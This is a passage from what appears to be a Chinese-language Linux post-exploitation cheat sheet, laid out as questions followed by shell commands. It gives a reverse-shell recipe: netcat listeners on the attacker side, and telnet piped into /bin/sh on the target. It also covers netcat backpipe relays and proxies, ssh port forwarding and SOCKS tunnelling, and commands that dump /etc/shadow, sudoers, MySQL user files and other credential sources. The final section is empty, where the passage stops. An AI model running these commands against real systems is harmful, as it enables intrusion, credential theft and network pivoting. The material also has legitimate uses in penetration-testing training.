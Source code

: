 ###你如何get一个shell？你如何与系统进行交互？
```bash
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444    # Attacker. 输入 (命令)
nc -lvp 4445    # Attacker. 输出(结果)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # 在目标系统上. 使用 攻击者的IP!
```
###如何端口转发？（端口重定向）
```bash
# rinetd
# http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
# fpipe
# FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
#ssh
# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
#mknod
# mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod
backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc
localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```
###建立隧道可能吗？本地，远程发送命令
```bash
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```

##秘密信息和用户

###你是谁？哪个id登录？谁已经登录？还有谁在这里？谁可以做什么呢？
```bash
id
who
w
last
cat /etc/passwd | cut -d:    # List of users
grep -v -E "^#" /etc/passwd | awk -F: &#039;$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}&#039; /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
```
###可以找到什么敏感文件？
```bash
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
```
###什么有趣的文件在home/directorie（S）里？如果有权限访问
```bash
ls -ahlR /root/
ls -ahlR /home/
```
###是否有任何密码，脚本，数据库，配置文件或日志文件？密码默认路径和位置
```bash
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```
###用户做过什么？是否有任何密码呢？他们有没有编辑什么？
```bash
```